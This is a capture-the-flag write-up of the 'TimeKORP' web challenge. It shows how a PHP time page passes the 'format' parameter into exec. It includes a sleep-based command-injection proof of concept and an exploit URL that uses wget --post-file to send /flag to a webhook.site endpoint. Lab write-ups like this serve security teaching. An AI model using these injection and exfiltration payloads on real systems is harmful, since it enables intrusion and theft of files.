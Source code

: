 # Web - TimeKORP

## Description
> Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

## Walkthrough

In this challenge we were given a web instance and the source code.

I looked at the website and saw a small page showing us the time.

![Screenshot0](./screenshots/0.png)

At the top left we have two menus: "What's the time" and "What's the date?".

If we click on these, we see parameters with formatting settings as it looks.

__URL:__ `http://<IP>:<PORT>/?format=%Y-%m-%d`

![Screenshot1](./screenshots/1.png)

I played around with the parameters briefly and noticed that sometimes we get nothing displayed, or we can also influence the formatting, such as being able to specify the year 3 times.

__URL:__ `http://<IP>:<PORT>>/?format=%Y-%Y-%Y`

![Screenshot2](./screenshots/2.png)

Ok, let's take a look at what the whole thing looks like behind the scenes and take a look at the code.

__File:__ `TimeController.php`

![Screenshot3](./screenshots/3.png)

__File:__ `TimeModel.php`

![Screenshot4](./screenshots/4.png)

### Solution

Ok, we can see that `exec` is being used in the background and we can pass user input via the `format` GET parameter.

It quickly becomes clear that we are probably dealing with an __RCE vulnerability__ here.

__POC:__

```
http://<IP>:<PORT>/?format=%Y-%Y-%Y'`sleep 3`'#
```
And then I retrieved the flag with the help of [webhook.site](https://webhook.site) and `wget`.

__Exploit:__
```
http://<IP>>:<PORT>/?format=%27`wget%20%20--post-file=/flag%20https://webhook.site/<ID>`%27#
```

__Flag:__

![Screenshot5](./screenshots/5.png)




